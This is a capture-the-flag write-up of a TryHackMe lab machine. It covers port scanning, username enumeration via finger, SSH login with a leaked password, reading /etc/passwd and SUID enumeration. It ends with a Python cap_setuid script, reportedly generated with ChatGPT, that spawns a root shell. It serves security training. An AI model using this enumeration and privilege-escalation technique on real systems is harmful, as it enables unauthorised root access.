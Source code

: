 ## NMAP
```bash
Starting Nmap 7.97 ( https://nmap.org ) at 2025-06-27 18:43 -0500  
Nmap scan report for 10.10.125.213  
Host is up (0.18s latency).  
Not shown: 997 closed tcp ports (conn-refused)  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   256 9b:d4:52:7d:75:fa:7e:bd:9f:ce:0d:ca:9b:4d:01:61 (ECDSA)  
|_  256 04:6e:71:c4:71:46:5e:cb:0e:3b:3d:4c:c9:66:0b:87 (ED25519)  
79/tcp open  finger  Linux fingerd  
|_finger: No one logged on.\x0D  
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))  
|_http-server-header: Apache/2.4.52 (Ubuntu)  
|_http-title: PrecisionChess IoT - Smart Chessboard Control  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## SSH
SSH has password based authentication, potential vector.

## Finger 
- **Very old protocol**, often used to get usernames and info on logged-in users.
    
- If misconfigured, it can leak valid usernames.
    

![[Pasted image 20250627185352.png]]

I tested:

```
finger username@IP
```

root
magnus
Magnus
fabiano

![[Pasted image 20250627185704.png]]
Got a hit with fabio, decoded the base64 and got a password for SSH. Knew password based SSH would be notable.

Logged in to SSH and retrieved `user.txt` flag.

## Privilege Escalation

No `sudo -l` permissions 

`cat /etc/passwd`

```bash
fabiano@tryhackme-2204:~$ cat /etc/passwd  
root:x:0:0:root:/root:/bin/bash  
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
bin:x:2:2:bin:/bin:/usr/sbin/nologin  
sys:x:3:3:sys:/dev:/usr/sbin/nologin  
sync:x:4:65534:sync:/bin:/bin/sync  
games:x:5:60:games:/usr/games:/usr/sbin/nologin  
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin  
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin  
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin  
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin  
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin  
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin  
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin  
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin  
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin  
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin  
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin  
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin  
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin  
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin  
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin  
syslog:x:104:110::/home/syslog:/usr/sbin/nologin  
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin  
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false  
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin  
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin  
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin  
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin  
pollinate:x:111:1::/var/cache/pollinate:/bin/false  
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin  
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin  
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash  
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false  
fwupd-refresh:x:113:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin  
hikaru:x:1001:1001:,,,:/home/hikaru:/bin/bash  
magnus:x:1002:1002:,,,:/home/magnus:/bin/bash  
fabiano:x:1003:1003:,,,:/home/fabiano:/bin/bash
```

`uname -a`

```bash
fabiano@tryhackme-2204:~$ uname -a  
Linux tryhackme-2204 6.8.0-1030-aws #32~22.04.1-Ubuntu SMP Thu Jun  5 08:38:24 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
```

`cat /proc/version`

```bash
fabiano@tryhackme-2204:~$ cat /proc/version  
Linux version 6.8.0-1030-aws (buildd@lcy02-amd64-048) (x86_64-linux-gnu-gcc-12 (Ubuntu 12.3.0-1ubuntu1~22.04) 12.3.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #32~22.04.1-Ubuntu SMP T  
hu Jun  5 08:38:24 UTC 2025  
fabiano@tryhackme-2204:~$
```

`find / -perm -u=s -type f 2>/dev/null`

```bash
fabiano@tryhackme-2204:~$ find / -perm -u=s -type f 2>/dev/null  
/snap/core20/2434/usr/bin/chfn  
/snap/core20/2434/usr/bin/chsh  
/snap/core20/2434/usr/bin/gpasswd  
/snap/core20/2434/usr/bin/mount  
/snap/core20/2434/usr/bin/newgrp  
/snap/core20/2434/usr/bin/passwd  
/snap/core20/2434/usr/bin/su  
/snap/core20/2434/usr/bin/sudo  
/snap/core20/2434/usr/bin/umount  
/snap/core20/2434/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/snap/core20/2434/usr/lib/openssh/ssh-keysign  
/snap/core/17212/bin/mount  
/snap/core/17212/bin/ping  
/snap/core/17212/bin/ping6  
/snap/core/17212/bin/su  
/snap/core/17212/bin/umount  
/snap/core/17212/usr/bin/chfn  
/snap/core/17212/usr/bin/chsh  
/snap/core/17212/usr/bin/gpasswd  
/snap/core/17212/usr/bin/newgrp  
/snap/core/17212/usr/bin/passwd  
/snap/core/17212/usr/bin/sudo  
/snap/core/17212/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/snap/core/17212/usr/lib/openssh/ssh-keysign  
/snap/core/17212/usr/lib/snapd/snap-confine  
/snap/core/17212/usr/sbin/pppd  
/snap/core18/2887/bin/mount  
/snap/core18/2887/bin/ping  
/snap/core18/2887/bin/su  
/snap/core18/2887/bin/umount  
/snap/core18/2887/usr/bin/chfn  
/snap/core18/2887/usr/bin/chsh  
/snap/core18/2887/usr/bin/gpasswd  
/snap/core18/2887/usr/bin/newgrp  
/snap/core18/2887/usr/bin/passwd  
/snap/core18/2887/usr/bin/sudo  
/snap/core18/2887/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/snap/core18/2887/usr/lib/openssh/ssh-keysign  
/snap/core18/1885/bin/mount  
/snap/core18/1885/bin/ping  
/snap/core18/1885/bin/su  
/snap/core18/1885/bin/umount  
/snap/core18/1885/usr/bin/chfn  
/snap/core18/1885/usr/bin/chsh  
/snap/core18/1885/usr/bin/gpasswd  
/snap/core18/1885/usr/bin/newgrp  
/snap/core18/1885/usr/bin/passwd  
/snap/core18/1885/usr/bin/sudo  
/snap/core18/1885/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/snap/core18/1885/usr/lib/openssh/ssh-keysign  
/snap/core22/1621/usr/bin/chfn  
/snap/core22/1621/usr/bin/chsh  
/snap/core22/1621/usr/bin/gpasswd  
/snap/core22/1621/usr/bin/mount  
/snap/core22/1621/usr/bin/newgrp  
/snap/core22/1621/usr/bin/passwd  
/snap/core22/1621/usr/bin/su  
/snap/core22/1621/usr/bin/sudo  
/snap/core22/1621/usr/bin/umount  
/snap/core22/1621/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/snap/core22/1621/usr/lib/openssh/ssh-keysign  
/snap/core22/1621/usr/libexec/polkit-agent-helper-1  
/snap/core22/2010/usr/bin/chfn  
/snap/core22/2010/usr/bin/chsh  
/snap/core22/2010/usr/bin/gpasswd  
/snap/core22/2010/usr/bin/mount  
/snap/core22/2010/usr/bin/newgrp  
/snap/core22/2010/usr/bin/passwd  
/snap/core22/2010/usr/bin/su  
/snap/core22/2010/usr/bin/sudo  
/snap/core22/2010/usr/bin/umount  
/snap/core22/2010/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/snap/core22/2010/usr/lib/openssh/ssh-keysign  
/snap/core22/2010/usr/libexec/polkit-agent-helper-1  
/usr/libexec/polkit-agent-helper-1  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/usr/lib/openssh/ssh-keysign  
/usr/lib/snapd/snap-confine  
/usr/bin/chfn  
/usr/bin/pkexec  
/usr/bin/sudo  
/usr/bin/umount  
/usr/bin/passwd  
/usr/bin/gpasswd  
/usr/bin/newgrp  
/usr/bin/chsh  
/usr/bin/fusermount3  
/usr/bin/su  
/usr/bin/mount
```

`/snap/core18/1885/usr/lib/openssh/ssh-keysign` could be of interest.

Checked out `/home/magnus` and `/home/hikaru` using `ls -la`

Some interesting files like `.bash_history`, not accessible though.

Decided to make life easier and use [linpeas](https://github.com/peass-ng/PEASS-ng). 

Vector found by linpeas.sh:

`/usr/bin/python3.10 cap_setuid=ep`

Used chatGPT to create an exploit script:

```bash
import os
os.setuid(0)
os.system("/bin/sh")
```

```bash
python3.10 exploit.py
```

Gained root shell, found `root.txt` in `/root`




